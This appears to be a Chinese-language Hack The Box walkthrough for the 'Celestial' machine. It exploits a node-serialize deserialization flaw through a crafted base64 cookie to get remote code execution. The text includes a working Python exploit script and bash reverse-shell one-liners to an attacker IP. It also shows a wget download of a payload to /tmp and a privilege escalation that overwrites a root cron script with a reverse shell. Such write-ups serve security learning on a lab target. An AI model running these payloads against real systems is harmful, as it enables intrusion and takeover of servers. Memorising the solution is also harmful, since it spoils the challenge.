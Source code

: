 # Celestial
- URL : https://app.hackthebox.eu/machines/130
- IP : 10.129.217.35
## Recon
- 掃 Port
    - `nmapAutomator.sh -H 10.129.217.35 -t recon`
    - ![](https://i.imgur.com/vZmyavd.png)
- 掃路徑
    - ![](https://i.imgur.com/hna0l1B.png)
- 首頁 404
    - ![](https://i.imgur.com/wAlHdP2.png)
- 發現有餅乾
    - ![](https://i.imgur.com/ocmsv5M.png)
- F5 後
    - ![](https://i.imgur.com/ELQeEWv.png)
    - 發現餅乾是 Serialize
## Serialize
```python
import requests
import base64

src = b'{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}'
dst = base64.b64encode(src).decode('ascii')
cookies = {
    'profile': dst
}

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'keep-alive',
    'Upgrade-Insecure-Requests': '1',
    'If-None-Match': 'W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://10.129.217.35:3000/', headers=headers, cookies=cookies)

print(response.text)
```
 亂戳 
```
{"username": "meow" ,"country":"Idk Probably Somewhere Dumb","city":"Lametown","num": true}
```
會回傳
```
Hey meow true + true is 2
```


戳
```
{"username": "meow" ,"country":"Idk Probably Somewhere Dumb","city":"Lametown","num": []}
```

會回傳
```
Hey meow  +  is undefined
```

戳
```
eval("A")
```

會噴錯
錯誤中有提到 
```
SyntaxError: Unexpected token e<br> &nbsp; &nbsp;at Object.parse (native)<br> &nbsp; &nbsp;at Object.exports.unserialize (/home/sun/node_modules/node-serialize/lib/serialize.js
```

- Google `node-serialize exploit`
- https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

透過 IIFE 來達成 RCE

```
var y = {
    rce : function(){
    require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });
    },
   }

var serialize = require('node-serialize'); 
console.log("Serialized: \n" + serialize.serialize(y));
```

```
{"rce":"_$$ND_FUNC$$_function(){\n    require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) });\n    }"}
```

```
var y = {
    rce : function(){
    require('child_process').exec('id', function(error, stdout, stderr) { console.log(stdout) });}(),
    username: "meow" ,
    country:"Idk Probably Somewhere Dumb",
    city :"Lametown",
    // num: 2,
   }

var serialize = require('node-serialize'); 
// console.log("Serialized: \n" + Buffer.from(serialize.serialize(y)).toString('base64'));

var s = serialize.serialize(y);

// console.log(s)

serialize.unserialize(s)

```
- 戳 Reverse shell
    - `bash -c 'bash -i >& /dev/tcp/10.10.16.35/7877 0>&1' `

## Exploit
- 完整 Payload
    - `src = """{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2","rce":"_$$ND_FUNC$$_function (){require('child_process').exec('wget 10.10.16.35', function(error, stdout, stderr) { console.log(stdout) });}()"}"""`


```python
import requests
import base64


cmd = "wget 10.10.16.35"
src = """{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2","rce":"_$$ND_FUNC$$_function (){require('child_process').exec('""" + cmd + """', function(error, stdout, stderr) { console.log(stdout) });}()"}"""
src = src.encode('ascii')

dst = base64.b64encode(src).decode('ascii')

cookies = {
    'profile': dst
}

headers = {
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Connection': 'keep-alive',
    'Upgrade-Insecure-Requests': '1',
    'If-None-Match': 'W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"',
    'Cache-Control': 'max-age=0',
}

response = requests.get('http://10.129.217.35:3000/', headers=headers, cookies=cookies)

print(response.text)
```
- 就成功 RCE ㄌ
    - `wget 10.10.16.35/s_HTB -O /tmp/s`
    - 放 Reverse shell
- 戳回來
    - ![](https://i.imgur.com/KNdkFxD.png)
## 提權
- `python -c 'import pty; pty.spawn("/bin/bash")'`
- 發現家目錄有 `output.txt`
    - ![](https://i.imgur.com/uvKZeeo.png)
- 跑豌豆
    - ![](https://i.imgur.com/VrJv2p6.png)
    - ![](https://i.imgur.com/kG7e4jh.png)
        - 找到一個 Cronjob
- 觀察 `output.txt`
    - ![](https://i.imgur.com/vDyw6w4.png)
- 尋找 `Script is running 在哪`
    - `grep -rnw '/' -e 'Script is running...' 2>/dev/null`
    - ![](https://i.imgur.com/ZVbg62o.png)
- 找到 user flag
    - ![](https://i.imgur.com/R8u4ah3.png)
-  script 是 cron job 每5分鐘跑一次，且我們可以修改
    - ![](https://i.imgur.com/14Mt18a.png)
- 戳 reverse shell
    - `echo "import os" > script.py`
    - `echo "os.system(\"bash -c 'bash -i >& /dev/tcp/10.10.16.35/7878 0>&1'\")" >> script.py`
- 收 Reverse shell
    - ![](https://i.imgur.com/QhPAE7i.png)
    - ![](https://i.imgur.com/FA4Cldq.png)
